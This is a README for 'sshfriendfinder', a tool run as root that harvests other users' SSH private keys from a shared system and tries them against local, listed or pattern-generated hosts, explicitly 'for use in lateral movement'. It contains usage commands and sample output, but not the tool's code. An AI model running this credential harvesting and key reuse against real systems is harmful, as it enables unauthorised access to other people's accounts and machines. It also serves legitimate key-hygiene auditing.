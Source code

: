 # sshfriendfinder

Run it (as root) to find all the SSH keys a user has a shared system, and then try them as that user on a bunch of places.

This is so you can find when people don't add passphrases to things, for use in lateral movement &c.

# Requirements

* [Paramiko](http://www.paramiko.org/) for Python.
* [ag/the silver searcher](http://betterthanack.com/) for lazy searching.

# Using

To try all the keys davedave has, just against localhost, do:

```
root# python sshfriendfinder.py -H davedave
Trying against 127.0.0.1
'/Users/davedave/.ssh/no_password' will get you on to 127.0.0.1 as davedave
```

To try against a bunch of hosts (the more useful mode):

```
root# python sshfriendfinder.py -H davedave -t host.example.org hosty.example.org 127.0.0.1
Trying against host.example.org:
It broke with [Errno 8] nodename nor servname provided, or not known
Trying against hosty.example.org:
It broke with [Errno 8] nodename nor servname provided, or not known
Trying against 127.0.0.1:
'/Users/davedave/.ssh/no_password' will get you on to 127.0.0.1 as davedave
```

To try against a pattern matched host based on the username
```
root# python sshfriendfinder.py -H davedave -T magicalcloud-%s.aws.example.org
Trying against magicalcloud-davedave.aws.example.org 
'/Users/davedave/.ssh/no_password' will get you on to magicalcloud-davedave.aws.example.org as davedave
```

To search the entire filesystem for any keys (so any RSA keys) and try and SSH around as whoever owns that file.
(this will take a long time as ag has to search every single file under the directory path)

```
root# python sshfriendfinder.py -d /home/
'/home/davedave/.ssh/no_password' will get you on to 127.0.0.1 as davedave
```
